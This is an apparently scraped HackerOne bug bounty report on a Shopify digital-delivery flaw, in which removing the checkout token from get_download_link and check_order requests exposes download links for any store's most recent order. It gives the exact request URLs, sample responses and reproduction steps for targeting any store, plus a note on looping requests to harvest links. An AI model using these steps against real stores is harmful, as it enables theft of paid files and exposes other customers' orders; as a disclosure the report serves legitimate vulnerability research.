# Removing parts of URL from jQuery request exposes links for download of Paid Digital Assets of the most recent Order placed by anyone on the store!

## Report Details
- **Report ID**: 1044285
- **URL**: https://hackerone.com/reports/1044285
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-26T13:08:22.727Z
- **Disclosed**: 2021-07-08T18:20:36.677Z

## Reporter
- **Username**: adarshxs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
_Please Note:_ I found this bug on a website made using Shopify 

I tried doing the same with my Shopify store but I was not able to buy anything as it was required to add credit card details which I don't have :(

THE LINKS GIVEN AS THE EXAMPLE ARE NOT VALID LINKS BUT **THE BUG WORKS ON EVERY SHOPIFY STORE THAT USES THE SAME LOGIC!!**

I have blurred the name of the website where I found the bug in the images as well
SO THE NAME IN THE BELOW REPORT IS CHANGED **SUPERSHACKS(my store) = SOMERANDOMWEBSITE.COM(The website I tested on or every other Shopify store that makes a jQuery request to check and get the download link)**

**jQuery request for Downloading Digital assets exposes download link even without Checkout Id, Callback Id. Produces the Most recent order for anyone to view!!**

**ONCE A NEW ORDER IS PLACED, THE LINK UPDATES AUTOMATICALLY**

This is bug regarding a Shopify Digital Assets/products store and  probably Applies to every Digital asset/products website made with Shopify out there

this is while I was placing an order and was messing around.

**Note SUPERHACKS is MYown shopify website and is not live!**
**So replace "superhacks" with "the website you want to test"**

Now when I place the order, A GET request is made for downloading the asset
`GET /checkout/get_download_link?callback=jQuery22009741786286098322_1606361688834&shop=superhacks.myshopify.com&checkout_token=1c0869d74100cd3582916a93a4bce741&_=1606361688835 HTTP/1.1
Host: delivery.shopifyapps.com`

okay cool
I Tried messing around and found out that removing everything i.e.

+ The nos. after jQuery `22009741786286098322_1606361688834`
+ and even the Checkout Token!!  `1c0869d74100cd3582916a93a4bce741`
+ And the underscore part at the end of the URL `&_=1606361688835`

This is the URL (let's call it **filled Link**) _Filled Link:_
`https://delivery.shopifyapps.com/checkout/get_download_link?callback=jQuery22009741786286098322_1606361688834&shop=superhacks.myshopify.com&checkout_token=1c0869d74100cd3582916a93a4bce741&_=1606361688835`

After removing the above mentioned part the URL looks like this (let's call it **Unfilled Link**) _Unfilled Link:_
`https://delivery.shopifyapps.com/checkout/get_download_link?callback=jQuery&shop=superhacks.myshopify.com&checkout_token=`

In both Cases the response is the same
`jQuery({"ready":true,"links":[{"name":"PG000892.zip","product_name":"WILD WOLF","url":"https://superhacks.com/a/downloads/-/d6d6528fb49ed4d5/5fabe0193543d2cf","download_limit":2,"filesize":"3.07 MB"}]})`

After removing these, the request still produced my order!

Same Is The Case while the CHECK ORDER REQUEST IS MADE

_Filled Link:_
`https://delivery.shopifyapps.com/checkout/check_order?callback=jQuery22009741786286098322_1606361688834&shop=superhacks.myshopify.com&checkout_token=1c0869d74100cd3582916a93a4bce741&_=1606361688835`

produces this:
`jQuery22009741786286098322_1606361688834({"has_attachments":true,"is_downloadable":true})`

_Unfilled Link:_
`https://delivery.shopifyapps.com/checkout/check_order?callback=jQuery&shop=superhacks.myshopify.com&checkout_token=`

produces:
`jQuery({"has_attachments":true,"is_downloadable":true})`

confirming there are attachements in the request made

I thought It may be due to Some cookies stored locally... BUT NO.... I tried it in incognito, Firefox, Chrome!! (Check Attached Images)
**It still gave the EXACT same response which is:**

`jQuery({"ready":true,"links":[{"name":"PG000892.zip","product_name":"WILD WOLF","url":"https://superhacks.com/a/downloads/-/d6d6528fb49ed4d5/5fabe0193543d2cf","download_limit":2,"filesize":"3.07 MB"}]})`


_I placed a new order and the **Unfilled link's request got updated with the new order download link!!**_

This could lead an attacker simply getting every possible download link of the most recent order placed!!!

I think the request is not validated at the server and it stores the most recent order placed in the Unfilled link part. But this is major flaw if this logic is being used widely at every Shopify store


_**STEPS TO REPRODUCE:**_:
+ Find a website that sells digital assets and is made using Shopify and uses the same default Shopify logic
+ `https://delivery.shopifyapps.com/checkout/check_order?callback=jQuery&shop=**superhacks**.myshopify.com&checkout_token=`  REPLACE "superhacks" with THE STORE NAME YOU WANT TO TEST.
+ And That's it... whenever an order is placed, You will get the link in the following format `jQuery({"ready":true,"links":[{"name":"PG000892.zip","product_name":"WILD WOLF","url":"https://superhacks.com/a/downloads/-/d6d6528fb49ed4d5/5fabe0193543d2cf","download_limit":2,"filesize":"3.07 MB"}]})`    IT HAS THE DOWNLOAD LINK (URL PART)!!

SAME IS THE CASE WHEN ANY PRODUCT IS ORDERED BY ONE USER, EVERYONE CAN ACCESS/DOWNLOAD IT
I tried it doing it with another product and it worked!


Thank you
Regards
Adarsh

Impact
An attacker could achieve download links for every order placed on the website by looping the URL and the URL would produce the MOST RECENT ORDER!

## Impact

Anyone Can Download/see/check the latest order placed by someone on the website....

Essentially both anyone can download the files Ordered by someone else for himself!

## Attachments
No attachments
